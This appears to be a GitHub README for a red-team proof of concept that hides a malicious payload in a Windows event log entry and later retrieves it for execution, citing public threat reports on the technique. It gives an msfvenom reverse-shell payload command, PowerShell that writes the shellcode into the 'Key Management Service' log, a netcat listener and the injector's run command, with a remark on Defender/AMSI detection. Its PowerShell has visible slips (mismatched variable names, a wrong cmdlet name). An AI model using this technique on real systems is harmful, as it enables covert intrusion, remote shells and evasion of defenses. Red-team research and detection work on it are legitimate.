 ***Unintelligent Code can be found here***


EventLogForRedTeams is a proof-of-concept for showing how a malicious payload can be stored in a Windows event log entry and later retrieved for execution. This technique is not original, and was first discussed here: https://threatpost.com/attackers-use-event-logs-to-hide-fileless-malware/179484/ and https://securelist.com/a-new-secret-stash-for-fileless-malware/106393/
 

Powershell Write-EventLog Command
```powershell
# Create variable to contain payload
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex

$msf = '<Insert Shellcode as Hex Literal String'

# Convert Payload variable to hex byte array
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')

# Create new event log entry
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener
```bash
nc -nvlp 1337
```
Execute code injector

```powershell
.\EventLogForRedTeams.exe
```

![Injecting Payload into Event Log](img/msf.png)

As of July 13, 2022, execution will be successful however, Microsoft Defender will eventually catch the shellcode running in memory (AMSI) and kill the process. That is not an issue as in the real world as such vanilla payload would not be used operationally. Well hopefully not at least.
